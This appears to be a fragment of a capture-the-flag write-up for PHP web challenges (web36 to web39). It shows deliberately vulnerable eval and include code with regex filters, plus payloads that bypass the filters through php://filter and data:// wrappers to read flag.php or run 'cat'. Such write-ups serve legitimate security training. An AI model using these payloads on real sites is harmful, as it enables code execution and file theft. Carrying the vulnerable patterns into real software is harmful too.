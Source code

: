 ```php
?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

## web36

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

```php
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

## web37（data伪协议）

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

```php
?c=data://text/plain,<?php echo `cat fl""ag.php`?>
或
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

## web39

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```
